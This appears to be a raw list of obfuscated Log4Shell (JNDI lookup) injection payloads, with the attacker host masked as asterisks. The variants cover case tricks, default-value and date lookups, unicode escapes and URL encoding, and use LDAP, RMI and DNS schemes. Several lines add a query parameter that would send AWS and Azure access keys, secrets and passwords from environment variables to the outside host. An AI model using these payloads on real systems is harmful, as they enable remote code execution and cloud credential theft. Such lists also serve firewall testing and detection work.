 ${${uPPer:J}nDi:${Upper:r}${upPeR:m}A${lowER:I}://****/Z}
${${LowER:j}ndi:${lowER:d}${lOWER:n}A${lOWer:s}://****/Z}
${${Upper:J}ndi:${upPeR:D}${uppEr:N}a${lOwer:s}://****/z}
${${::-j}${::-n}${::-D}${::-I}:${::-L}${::-D}${::-A}${::-P}${::-S}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-M}${::-I}://****/z}
${${::-j}${::-n}${::-d}${::-i}:${::-D}${::-N}${::-s}://****/Z}
${Jnd${sYS:sYS_naME:-I}:lDaP:/****/z}
${JND${sYS:SYs_name:-i}:lDaps:/****/Z}
${jnD${sYS:Sys_NAmE:-I}:rmi:/****/z}
${JNd${sys:sYS_NAMe:-i}:Dns:/****/z}
${j${${:-l}${:-O}${:-w}${:-E}${:-r}:N}di:lDAp://****/z}
${j${${:-l}${:-o}${:-w}${:-E}${:-r}:N}di:LDAPS://****/Z}
${j${${:-l}${:-o}${:-w}${:-e}${:-R}:n}dI:RMI://****/z}
${J${${:-L}${:-O}${:-w}${:-e}${:-R}:n}Di:dNs://****/Z}
${${dATE:'j'}${datE:'N'}${datE:'D'}${datE:'i'}:${datE:'L'}${dATE:'d'}${dATE:'A'}${Date:'p'}${dAte:'s'}://****/z}
${${DATE:'j'}${datE:'n'}${dAtE:'D'}${daTe:'I'}:${DATE:'r'}${DAtE:'m'}${dATE:'i'}://****/Z}
${${DATe:'j'}${Date:'N'}${Date:'d'}${date:'i'}:${datE:'d'}${dATe:'N'}${dAte:'s'}://****/z}
${${whAT:EvER:-J}${SOme:THing:-N}${oThEr:ThinG:-d}${and:LaSt:-I}:lDaps://****/Z}
${${wHaT:EVER:-j}${SOme:tHINg:-N}${oThEr:tHIng:-D}${anD:lAsT:-i}:rMI://****/Z}
${${wHAt:Ever:-j}${sOmE:tHIng:-n}${otHEr:tHINg:-d}${aND:LAST:-I}:DnS://****/z}
${\u006a\u006E\U0064\U0069:LdaP://****/z}
${\u006a\u006E\U0064\U0069:LDaPS://****/Z}
${\U006a\u006E\U0064\U0069:Rmi://****/Z}
${\U006a\U006e\U0064\U0069:dNs://****/Z}
${jndI:LDap://127.0.0.1#****/z}
${Jndi:LdApS://127.0.0.1#****/Z}
${JndI:RMI://127.0.0.1#****/Z}
${jnDI:dnS://127.0.0.1#****/Z}
%24%7bjndI:lDAp://****/Z%7d
%24%7BJnDI:ldaps://****%7D
%24%7BjNDI:RMi://****%7d
%24%7BjNDI:Dns://****%7d
%24%7b%24%7bENV:ENV_NaME:-J%7DNDI%24%7bEnv:enV_namE:-:%7D%24%7beNv:enV_NAME:-l%7DDap%24%7benV:EnV_Name:-:%7d//****/z%7D
%24%7B%24%7BeNV:Env_nAmE:-j%7DNDi%24%7beNV:eNV_name:-:%7d%24%7bENV:eNV_NAmE:-L%7Ddaps%24%7BeNV:eNV_nAME:-:%7d//****/z%7D
%24%7B%24%7bEnV:env_name:-j%7dNdI%24%7BenV:eNv_NAme:-:%7d%24%7benV:enV_name:-R%7dmI%24%7bENv:eNV_naME:-:%7D//****/z%7D
%24%7B%24%7beNv:env_NaMe:-J%7dndI%24%7bENV:eNv_Name:-:%7D%24%7BeNV:ENV_naME:-d%7dNs%24%7BeNV:eNV_name:-:%7d//****/Z%7D
%24%7BJnDi:ldAP://****/Z?LEaK=%24%7bEnV:Aws_ACceSS_KEy_ID:-NO_EXiSts%7D%7D
%24%7bJNdI:ldAp://****/Z?LeaK=%24%7BENv:aWS_secreT_acCESs_Key:-nO_eXisTS%7d%7D
%24%7bJNDI:lDaP://****/z?LeAK=%24%7BeNV:aMAzOn_AWs_ACcess_Key_Id:-nO_exIsTs%7d%7D
%24%7bjndI:LdAp://****/Z?LeaK=%24%7bEnV:AmAzON_awS_sECrET_AcceSS_KEY:-NO_exiSTS%7d%7d
%24%7BJnDI:ldAP://****/Z?leaK=%24%7bEnv:AZuRe_clieNT_ID:-No_eXIsts%7d%7D
%24%7Bjndi:LdAP://****/Z?LeAK=%24%7bEnV:aZURE_cLIEnt_sEcrEt:-no_ExISTS%7D%7D
%24%7BJndI:lDap://****/Z?LeAK=%24%7Benv:azURE_UseRname:-No_EXISTs%7d%7D
%24%7BJndi:lDap://****/Z?lEAk=%24%7benv:AzURe_PASsword:-no_EXIsts%7d%7D
%24%7BJnDi:LdAp://****/z?LEAK=%24%7Benv:mSi_ENDPOiNt:-nO_eXisTS%7d%7d
%24%7BjNdi:LDAP://****/Z?leaK=%24%7beNv:MSI_secret:-NO_exIsTs%7d%7D
%24%7B%24%7BLOweR:j%7dNdI:%24%7BLOWer:L%7d%24%7BlOWEr:d%7Da%24%7BLOWeR:P%7d://****/Z%7D
%24%7b%24%7BupPEr:J%7dndi:%24%7BUpPEr:l%7D%24%7buPpeR:d%7da%24%7BlOweR:P%7D://****/Z%7d
%24%7b%24%7B::-J%7D%24%7b::-N%7D%24%7b::-D%7d%24%7B::-i%7d:%24%7B::-L%7D%24%7b::-d%7D%24%7b::-A%7D%24%7b::-P%7d://****/z%7d
%24%7BJnd%24%7bSyS:sys_name:-i%7d:LDap:/****/Z%7D
%24%7bJ%24%7b%24%7B:-L%7D%24%7B:-O%7D%24%7B:-W%7d%24%7B:-e%7D%24%7b:-R%7D:n%7dDi:lDap://****/z%7d
%24%7b%24%7bdaTE:'j'%7D%24%7bDate:'n'%7D%24%7BdaTe:'D'%7d%24%7bdaTe:'i'%7d:%24%7bDATe:'L'%7d%24%7BdAtE:'D'%7d%24%7BdaTe:'a'%7d%24%7bdaTe:'P'%7D://****/Z%7D
%24%7B%24%7bWHAt:EVEr:-j%7d%24%7bsoMe:thING:-N%7D%24%7bOtHER:Thing:-d%7D%24%7bAnD:LaST:-I%7d:LdaP://****/z%7d
%24%7b%24%7BlOWer:j%7dndI:%24%7BLoWEr:l%7d%24%7BLoWer:d%7DA%24%7BlOWeR:P%7D%24%7Blower:S%7D://****/Z%7d
